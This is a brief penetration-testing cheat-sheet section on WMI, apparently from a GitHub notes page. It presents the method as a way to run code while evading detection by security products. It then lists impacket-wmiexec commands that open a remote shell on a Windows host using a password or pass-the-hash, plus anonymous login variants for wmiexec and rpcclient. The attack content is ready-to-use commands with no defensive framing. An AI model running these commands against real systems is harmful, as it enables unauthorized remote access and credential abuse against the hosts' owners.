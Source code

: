 ### WMI
>The advantage to this method is that it allows us to execute code without writing on the disk or creating a new system. The result is a lowered chance of detection by Windows Security Essentials and Bit9, for instance
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```

###### Connecting with authentication
```
impacket-wmiexec domain/'':''@ip
```
###### RPC Anonymous login
```
rpcclient -U '' -N ip
```

